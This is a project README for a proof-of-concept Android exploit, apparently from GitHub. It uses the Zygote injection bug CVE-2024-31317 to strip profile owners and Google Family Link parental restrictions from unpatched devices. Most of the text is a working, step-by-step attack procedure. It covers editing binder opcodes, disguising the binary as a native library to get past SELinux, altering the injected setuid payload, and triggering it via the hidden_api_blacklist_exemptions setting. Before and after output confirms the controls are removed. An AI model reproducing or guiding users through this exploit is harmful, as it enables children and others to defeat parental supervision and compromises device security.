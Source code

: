 # Zygotroller
## Remove profile owners/Family Link on ANY pre June 2024 Developer Mode device (Android 12+)
Zygotroller is a proof-of-concept that can remove a profile owner and associated restrictions with CVE-2024-31317's Zygote injection bug.
It requires developer mode and the latest security patch to be prior to June 2024.

Google's parental control system, Family Link, is shown as an example in this repo.

# Using
You will need a modern-ish device running a Debian based distro to compile Zygotroller. Prebuilts may or may not be available depending on the time of reading this.

Unfortunately this relies on internal parts of Android, so you need to clone the entirety of the Android source code in order to build Zygotroller. Make sure you have at least 400gb of free space, although you will likely use less.

IMPORTANT IF USING WSL: Make sure you have a LOT of swap, or WSL will crash. I personally used 32G:
```
sudo fallocate -l 32G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile
```

Now for cloning AOSP source:
```
mkdir ~/aosp
cd ~/aosp
```
`repo init --partial-clone --no-use-superproject -b android-latest-release -u https://android.googlesource.com/platform/manifest`

`repo sync -c -j8` (might take multiple tries due to ratelimits)

`source build/envsetup.sh`

`lunch aosp_cf_arm64_only_phone-aosp_current-eng` (if you're testing this on an emulator, change arm64 to x86_64)

`cd ~/aosp/external`

`git clone https://github.com/rifting/Zygotroller`

`cd Zygotroller`

Now we need to change the values in the script to our actual profile owner and opcode for clearProfileOwner.
The profile owner can either be in the Google play services "supervision" package or in Google play services itself. Run `dpm list-owners`, my result was like so:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
This gives us two pieces of information we need for Zygotroller, the package name (com.google.android.gms.supervision) and the class name (com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver).

Edit zygotroll.cpp with your preferred text editor and update these lines to your profile owner component:
```
    // Family Link profile owner
    std::string pkg = "com.google.android.gms.supervision";
    std::string cls = "com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver";
```
Now you need to find the opcode for the clearProfileOwner function of DPM. This was "91" for me, but it varies depending on the version/type of Android you're running. To get the opcode for clearProfileOwner, I used [android-svc](https://github.com/T-vK/android-svc) with the command 

`android-svc convert 'android.app.admin.IDevicePolicyManager.clearProfileOwner("dummy")'`

The number you see in the output will be the opcode for clearprofile owner, open up zygotroll.cpp again with your preferred text editor and edit the number here, to your actual opcode:
```
    // Transaction code 91 was ClearProfileOwner for my device
    dpm->transact(91, data, &reply);
```

You'll want to do the same thing with setUserRestriction:
```
// Transaction code 132 was setUserRestriction for my device
dpm->transact(132, data2, &reply2);
```

Now we need to compile zygotroller:

`mm`

This can take a LONG time on initial build, subsequent builds will take <1m on most modern machines.

Find your binary in `~/aosp/out/target/product/vsoc_x86_64_only/system/bin/zygotroller`

Now we need to make an app that contains this binary as a "shared library" that is actually just the Zygotroller executable, so SELinux lets us execute it.
You can use my "CopyNativeLib" repo for that:

`git clone https://github.com/rifting/CopyNativeLib.git`

Then rename your Zygotroller binary to `libzygotroller.so` and put it in app/src/main/jniLibs/arm64-v8a (I'm assuming that will be the architecture of your phone). Build the APK in android studio and install to your device with `adb install`.

The family link profile owner was userid 10090 for me, AKA u0_a90
Do `dumpsys package com.google.android.gms.supervision | grep userId=`

Now take a look at payload.sh, on this line

`inject='\n--setuid=10090...`

Change the UID here from 10090 to whatever your UID from the dumpsys command was. If it's the same ID, leave it.

Look a little further on that line and you'll see 

`...echo zYg0te $(LD_LIBRARY_PATH=[path to your native lib] [path to your native lib])...`

(three dots used to show truncation)

You need to replace these with the paths to the native library you've just installed to the device. Run `pm path com.rifting.copynativelib`.
The path to the file will be the parent directory of the APK shown as the output of the command, + `lib/arm64-v8a/libzygotroller.so`. So that line will end up looking something like this:

`...echo zYg0te $(LD_LIBRARY_PATH=/data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/ /data/app/~~IQhIf-M_9eLGoJ-Wd-qaCA==/com.rifting.copynativelib-a6N1upfA-_Trjh_cPCHngA==/lib/x86_64/libreal.so)...`

You're almost there! Push this file to /data/local/tmp

`adb push payload.sh /data/local/tmp`

Set permissions:

`chmod +x /data/local/tmp/payload.sh`

And finally, send its output into hidden_api_blacklist_exemptions!

`settings put global hidden_api_blacklist_exemptions "$(sh ./payload.sh)"`

Now set this to "0" to avoid a bootloop :)
`settings put global hidden_api_blacklist_exemptions 0`

You should see that the Family Link profile owner + all associated restrictions have been removed.
Go into settings and manage accounts, and remove the supervised account from the device. Congratulations!

Before:
```
$ dpm list-owners
1 owner:
User  0: admin=com.google.android.gms.supervision/com.google.android.gms.kids.account.receiver.ProfileOwnerReceiver,ProfileOwner
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions>
    <restrictions_user user_id="0">
      <restrictions no_factory_reset="true" no_config_location="true" no_add_clone_profile="true" no_safe_boot="true" no_config_credentials="true" no_config_date_time="true" />
    </restrictions_user>
  </device_policy_local_restrictions>
...
```

After:
```
$ dpm list-owners
no owners
emu64xa:/ $
```
```
$ abx2xml /data/system/users/0.xml -
...
<device_policy_local_restrictions />
...
```


## Special Thanks
[gburca for BinderDemo](https://github.com/gburca/BinderDemo)

[LLeaves' awesome blog about this CVE](https://blog.lleavesg.top/article/CVE-2024-31317-Zygote)
